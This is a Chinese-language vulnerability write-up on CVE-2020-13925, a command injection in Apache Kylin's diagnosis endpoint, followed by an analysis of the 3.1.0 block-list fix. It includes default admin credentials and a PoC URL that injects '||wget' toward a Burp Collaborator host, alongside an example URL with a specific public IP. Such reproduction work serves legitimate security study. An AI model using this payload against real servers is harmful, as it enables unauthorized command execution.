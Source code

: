 Title: CVE-2020-13925 Apache Kylin命令注入漏洞
Date: 2020-07-22 10:20
Category: 漏洞实践
Tags: Java,命令注入,漏洞
Slug: 
Authors: bit4woo
Summary: 

# CVE-2020-13925 Apache Kylin命令注入漏洞

## 漏洞简介


### 简要说明


Apache Kylin 是一个大数据的平台


### 影响版本


- 2.3.0, 2.3.1, 2.3.2,
- 2.4.0, 2.4.1,
- 2.5.0, 2.5.1, 2.5.2,
- 2.6.0, 2.6.1, 2.6.2, 2.6.3, 2.6.4, 2.6.5, 2.6.6,
- 3.0.0-alpha, 3.0.0-alpha2,3.0.0-beta, 3.0.0, 3.0.1 3.0.2



Users of all previous versions after 2.3 **should upgrade to 3.1.0**.  即修复版本: 3.1.0
### 漏洞利用条件


- 需要有账号能够登陆 WEB 系统。初始用户名和密码是 `ADMIN/KYLIN`
## 漏洞复现
### 环境搭建


参考 [https://github.com/apache/kylin](https://github.com/apache/kylin) 使用docker进行环境部署，修改其中的版本为3.0.1（存在漏洞的版本）。可以去除 【-m 8G \ 】它的作用是分配内存的大小。


然后访问 [http://host:7070/kylin/login](http://127.0.0.1:7070/kylin/login) 初始用户名和密码是 `ADMIN/KYLIN`。
```bash
docker pull apachekylin/apache-kylin-standalone:3.0.1

docker run -d \
    -m 8G \
    -p 7070:7070 \
    -p 8088:8088 \
    -p 50070:50070 \
    -p 8032:8032 \
    -p 8042:8042 \
    -p 16010:16010 \
    apachekylin/apache-kylin-standalone:3.0.1
    
docker run -d \
    -p 7070:7070 \
    -p 8088:8088 \
    -p 50070:50070 \
    -p 8032:8032 \
    -p 8042:8042 \
    -p 16010:16010 \
    apachekylin/apache-kylin-standalone:3.0.1
```


### 漏洞验证PoC


```python
原始请求：
http://120.76.179.151:7070/kylin/api/diag/project/learn_kylin/download
        
PoC请求，GET方法：
http://host:port/kylin/api/diag/project/%7c%7cwget%20h1j96qoac5o9mbqpkewkhxxa218rwg.burpcollaborator.net%7c%7c/download

即将项目名称“learn_kylin”替换为如下payload访问即可：
||wget h1j96qoac5o9mbqpkewkhxxa218rwg.burpcollaborator.net||
```


### 复现步骤

访问 System-Configuration-Diagnosis。触发下载诊断信息的请求 [http://host:port/kylin/api/diag/project/learn_kylin/download](http://120.76.179.151:7070/kylin/api/diag/project/learn_kylin/download)
![image.png](img/CVE-2020-13925 Apache Kylin命令注入漏洞/visit.png)
即将项目名称“learn_kylin”替换为如上payload访问即可。


![image.png](img/CVE-2020-13925 Apache Kylin命令注入漏洞/poc.png)
## 漏洞分析


### 定位漏洞代码
[https://github.com/apache/kylin/tree/kylin-3.0.2/server-base](https://github.com/apache/kylin/tree/kylin-3.0.2/server-base)

漏洞代码位置：
[https://github.com/apache/kylin/blob/kylin-3.0.2/server-base/src/main/java/org/apache/kylin/rest/controller/DiagnosisController.java](https://github.com/apache/kylin/blob/kylin-3.0.2/server-base/src/main/java/org/apache/kylin/rest/controller/DiagnosisController.java)
![image.png](img/CVE-2020-13925 Apache Kylin命令注入漏洞/code1.png)
[https://github.com/apache/kylin/blob/kylin-3.0.2/server-base/src/main/java/org/apache/kylin/rest/service/DiagnosisService.java](https://github.com/apache/kylin/blob/kylin-3.0.2/server-base/src/main/java/org/apache/kylin/rest/service/DiagnosisService.java)
![image.png](img/CVE-2020-13925 Apache Kylin命令注入漏洞/code2.png)
[https://github.com/apache/kylin/blob/kylin-3.0.2/core-common/src/main/java/org/apache/kylin/common/util/CliCommandExecutor.java](https://github.com/apache/kylin/blob/kylin-3.0.2/core-common/src/main/java/org/apache/kylin/common/util/CliCommandExecutor.java)
![image.png](img/CVE-2020-13925 Apache Kylin命令注入漏洞/code3.png)
![image.png](img/CVE-2020-13925 Apache Kylin命令注入漏洞/code4.png)

### 修复方案

对比3.0.2和3.1.0两个版本的代码：
src\main\java\org\apache\kylin\rest\controller\DiagnosisController.java
![code-diff.png](img/CVE-2020-13925 Apache Kylin命令注入漏洞/code-diff.png)


过滤代码在kylin-kylin-3.1.0\kylin-kylin-3.1.0\core-common\src\main\java\org\apache\kylin\common\util\CliCommandExecutor.java中，采用了黑名单方式过滤。
```java

    public static final String COMMAND_BLOCK_LIST = "[ &`>|{}()$;\\#~!+*\\\\]+";
    public static final String COMMAND_WHITE_LIST = "[^\\w%,@/:=?.\"\\[\\]]";
    public static final String HIVE_BLOCK_LIST = "[ <>()$;\\-#!+*\"'/=%@]+";


    /**
     * <pre>
     * Check parameter for preventing command injection, replace illegal character into empty character.
     *
     * Note:
     * 1. Whitespace is also refused because parameter is a single word, should not contains it
     * 2. Some character may be illegal but still be accepted because commandParameter maybe a URI/path expression,
     *     you may check "Character part" in https://docs.oracle.com/javase/8/docs/api/java/net/URI.html,
     *     here is the character which is not banned.
     *
     *     1. dot .
     *     2. slash /
     *     3. colon :
     *     4. equal =
     *     5. ?
     *     6. @
     *     7. bracket []
     *     8. comma ,
     *     9. %
     * </pre>
     */
    public static String checkParameter(String commandParameter) {
        return checkParameter(commandParameter, COMMAND_BLOCK_LIST);
    }

    public static String checkParameterWhiteList(String commandParameter) {
        return checkParameter(commandParameter, COMMAND_WHITE_LIST);
    }

    public static String checkHiveProperty(String hiveProperty) {
        return checkParameter(hiveProperty, HIVE_BLOCK_LIST);
    }

    private static String checkParameter(String commandParameter, String rex) {
        String repaired = commandParameter.replaceAll(rex, "");
        if (repaired.length() != commandParameter.length()) {
            logger.warn("Detected illegal character in command {} by {} , replace it to {}.", commandParameter, rex, repaired);
        }
        return repaired;
    }
```


命令注入常用的连接符 ||  && 都被过滤了，这里甚至过滤了空格，找不到绕过的方法。
## 参考链接
[https://mp.weixin.qq.com/s/LdEgENX2_b8tb12n4H9KJQ](https://mp.weixin.qq.com/s/LdEgENX2_b8tb12n4H9KJQ)


